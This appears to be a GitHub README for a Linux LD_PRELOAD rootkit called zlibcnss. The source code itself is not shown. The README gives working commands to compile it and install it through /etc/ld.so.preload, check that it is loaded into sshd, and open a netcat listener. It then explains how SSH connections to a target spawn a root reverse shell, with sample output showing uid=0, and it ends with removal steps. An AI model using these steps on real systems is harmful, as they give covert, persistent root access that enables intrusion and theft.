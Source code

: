 


Compile and install:
```bash
 gcc zlibcnss.c -o zlibcnss.so -fPIC -shared -ldl -D_GNU_SOURCE
 cp zlibcnss.so /lib/
 echo "/lib/zlibcnss.so" > /etc/ld.so.preload
```



### Verify installation
You can check if the rootkit is installed by running```ldd``` and checking that your malicious library gets loaded.
```bash
ldd /usr/sbin/sshd
	linux-vdso.so.1 (0x00007ffe9214c000)
	/lib/x86_64-linux-gnu/zlibcnss.so (0x00007f17ed354000)
    [...]
```
Also check /etc/ld.so.preload for your entry.
```bash
cat /etc/ld.so.preload 
/lib/x86_64-linux-gnu/zlibcnss.so
```

## Usage
1. Install as above
2. Start a listener to receive reverse shell
```bash
nc -lvnp 9001
```
3. SSH to the target machine. A shell should spawn on your listener.
It (almost) always doens't work the first time, so SSH twice.
```bash
ssh hey@10.11.0.56
hey@10.11.0.56's password:
^C
ssh hey@10.11.0.56
hey@10.11.0.56's password:
^C
```
```bash
nc -lvnp 9001
[...]
Connection received
[+] spawning shell... 
id
uid=0(root) gid=0(root) groups=0(root)
```

## Remove rootkit
Delete `/etc/ld.so.preload` and delete the maliciuos library. 
Nothing else needed.
```bash
rm /etc/ld.so.preload
rm /lib/zlibcnss.so
rm /lib/x86_64-linux-gnu/zlibcnss.so
```
